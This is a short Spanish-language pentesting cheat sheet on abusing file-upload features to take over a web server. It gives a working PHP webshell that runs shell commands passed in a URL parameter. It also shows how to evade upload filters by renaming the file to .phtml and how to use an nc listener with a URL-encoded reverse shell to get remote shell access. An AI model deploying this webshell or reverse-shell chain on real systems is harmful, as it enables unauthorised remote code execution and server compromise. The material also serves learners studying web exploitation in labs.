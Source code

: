 # 1.Encontrar un lugar que permita subir archivos
# 2.Encontrar la ruta en la que se suben los archivos

# 3.Crear un archivo con una Webshell
```bash
nano webshell.php
```

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

# 4.Subir la Webshell
## Bypass Extension Restriction

Cuando el servidor web no permita subir archivos php, utilizaremos un archivo con extension phtml.

```bash
mv webshell.php webshell.phtml
```

# 5.Abrir la URL del archivo con el comando como parámetro
```HTTP
<"URL Archivo">?cmd=<"Comando a ejecutar">
```

## Obtener una reverse shell desde la web shell
### 1. Ponemos la maquina a la escucha
 ```bash
nc -nlvp <"Puerto a la escucha">
```
### 2. Abrimos la URL del archivo con la reverse shell unicodeada
Para crear el comando de la reverse shell podemos usar https://www.revshells.com/
```HTTP
<"URL Archivo">?cmd=<"Reverse Shell Unicodeada">
```